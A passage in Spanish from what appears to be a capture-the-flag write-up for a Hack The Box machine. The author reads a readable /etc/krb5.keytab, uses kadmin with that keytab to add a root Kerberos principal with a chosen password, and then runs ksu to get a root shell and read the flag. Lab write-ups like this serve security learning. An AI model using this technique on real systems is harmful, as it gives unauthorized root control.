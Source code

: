 Encontramos un fichero `/etc/krb5.keytab`

```bash
cat /etc/krb5.keytab
file /etc/krb5.keytab
```

Si buscamos lo que es por internet vemos que hay una via potencial de rootear esta maquina usando este fichero. La idea aqui seria
de crear un nuevo principal al usuario root cambiandole la contraseña.

```bash
klist -k /etc/krb5.keytab
kadmin -h
kadmin -kt /etc/krb5.keytab
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
?
addprinc root@REALCORP.HTB
password: test123
reenter password: test123
exit
```

Si ahora lanzamos 

```bash
ksu
Kerberos password for root@REALCORP.HTB: test123
whoami

#Output
root
```

Ya somos root y podemos leer la flag
